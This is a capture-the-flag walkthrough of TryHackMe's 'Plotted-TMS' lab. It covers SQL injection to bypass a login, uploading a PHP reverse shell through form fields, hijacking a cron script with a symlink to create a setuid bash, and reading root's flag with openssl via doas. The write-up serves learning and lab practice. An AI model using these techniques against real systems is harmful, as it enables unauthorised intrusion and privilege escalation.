


# Plotted-TMS
**Date:** February 19th 2022

**Author:** j.info

**Link:** [**Plotted-TMS**](https://tryhackme.com/room/plottedtms) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.82.137`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

<br>

### Gobuster Scans

`gobuster dir -u http://10.10.82.137 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/admin                (Status: 200) [Size: 932]
/index.html           (Status: 200) [Size: 10918]
/shadow               (Status: 200) [Size: 25]
/passwd               (Status: 200) [Size: 25]
```

`gobuster dir -u http://10.10.82.137:445 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/management           (Status: 200) [Size: 14506]
```


<br>

## Website Digging

Visiting the main page just takes you to the default Apache2 page. The same thing on port 445. There is no robots.txt on either, and viewing the page source on them also comes up empty handed. No cookies for either as well.

Taking a look at the **/admin** directory:

<br>


<br>

Well, that would certainly be an easy in. Looking inside:

```
VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE
```

So it's definitely not a normal id_rsa file and turns out to be **base64** encoded. Let's decode and see what it says:

`echo "VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE" | base64 -d`

```
Trust me it is not this easy..now get back to enumeration :D
```

It's fun when they throw in things like this!

I take a look at the **/shadow** link and get some more **base64** encoded text. Decoding:

`echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d`

```
not this easy :D
```

Aaaaaaand **/passwd** has the exact same thing.

We still have **/management** to check out on the **445** site.

<br>


<br>


<br>

So we have a login page, but haven't been able to uncover any hints at usernames yet. I try the default admin/admin, admin/password, etc logins and have no luck.

I could try and brute force admin since it's likely the username but let's try **SQLi** first before going that route.

<br>


<br>



<br>

Bingo! I navigate around the site to see what's there and end up finding four different places that we can upload files that will result in a reverse shell coming back to us.

The first is opening up the administrator admin dropdown in the top right, selecting my account, and then uploading a .php reverse shell in the photo section.

The second is in the drivers list menu. Click create new and fill everything out, and then under the photo field upload the .php reverse shell.

The third and fourth are in the settings menu. You can upload a .php reverse shell in either the system logo field, or the portal cover field.

<br>



<br>


<br>


<br>

## System Access

I start up a listener on my system and then refresh one of the pages with the reverse shell on it:

```
connect to [<MY IP>] from (UNKNOWN) [10.10.53.170] 43342
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:42:10 up 10 min,  0 users,  load average: 0.01, 0.91, 0.93
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
plotted
```

<br>

## System Enumeration

Looking at which users we have on the system:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
```

Running them through id:

```
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
```

I dig around their home directories but don't have access to view anything interesting. The only thing out of place seems to be a directory in the **plot_admin** home directory called **tms_backup**.

I then go look through the **/var/www** directory to see if there are any credentials hiding in config files there and find something in the **/var/www/html/445/management/initialize.php** file:

```
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"<REDACTED>");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```

I login to the **MySQL** database with this information and look around.

`mysql -h localhost -D tms_db -u tms_user -p`

Not much to be found other than this in the users table:

```
+----+--------------+----------+----------+----------------------------------+
| id | firstname    | lastname | username | password                         |
+----+--------------+----------+----------+----------------------------------+
|  1 | Adminstrator | Admin    | admin    | <REDACTED> |
|  9 | Plotted      | User     | puser    | <REDACTED> |
+----+--------------+----------+----------+----------------------------------+
```

I was able to crack the **puser** password, but not the **admin** password. I quickly see if I can login to the system user **plot_admin** with this cracked password but it did not work. I login to the traffic management website as **puser** but there's nothing helpful that I couldn't already see with the **admin** user.

I also try and crack the hash for **dev_or_etnom** listed above and don't have any luck.

<br>

## Lateral Movement to plot_admin

<br>

Looking around more there is a **/scripts** in the **/var/www** directory and it has a file called **backup.sh** in it.

There is also a cron job setup for it in **/etc/crontab**:

```
* *     * * *   plot_admin /var/www/scripts/backup.sh
```

The **backup.sh** file is read only, but we do have write access to the directory it's in so we should be able to create a symbolic link to **backup.sh** and laterally move over to the **plot_admin** account.

I create a script called **test.sh**:

```
cp /bin/bash ./shell.sh
chmod +xs ./shell.sh
```

And then link **backup.sh** over to my script and make it executable:

`ln -sf test.sh backup.sh`

```
lrwxrwxrwx 1 www-data www-data    7 Feb 20 04:44 backup.sh -> test.sh
-rwxrwxrwx 1 www-data www-data   45 Feb 20 04:43 test.sh
```

I wait for cron to run the backup.sh script which will in turn run my test.sh instead. After it runs you can see in **/home/plot_admin** that my newly created shell is there. If you look at the user/group it was created under the plot_admin user which is important for the next step.

```
-rwsr-sr-x  1 plot_admin plot_admin 1183448 Feb 20 04:47 shell.sh
```

If you look at the man page for **bash**, which is what this shell.sh is, you can see the following under the **INVOCATION** section:

```
If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
```

So that means we can now run this with **-p** and it will drop us into a **plot_admin** shell since the script we made changed it to **+xs**:

```
www-data@plotted:/var/www/scripts$ /home/plot_admin/shell.sh -p
shell.sh-5.0$ whoami
plot_admin
```

I change over to his home directory and get the **user.txt** flag.

<br>

## Root

<br>

I search around the system for awhile and eventually see this in the **/etc/doas.conf** file:

```
permit nopass plot_admin as root cmd openssl
```

This means we can run the openssl command as root using the doas command.

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/) we can see that we're able to read files using the openssl command. And since we can run that command as root we can just display the **/root/root.txt** file like so:

`doas -u root openssl enc -in /root/root.txt`

<br>

With that we've finished this CTF!

<br>


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **SQLi** to bypass a login page
- Changing a website via the admin panel to run a reverse shell instead of the intended code
- Interacting with a MySQL database
- Taking advantage of having write privileges in a directory that cron runs a script from as another user allowing lateral movement to a another user account
- Noticing the user had the ability to run openssl as root, and that we can use openssl to view or change files we normally couldn't because of that

<br>

Many thanks to:
- [**sa.infinity8888**](https://tryhackme.com/p/sa.infinity8888) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)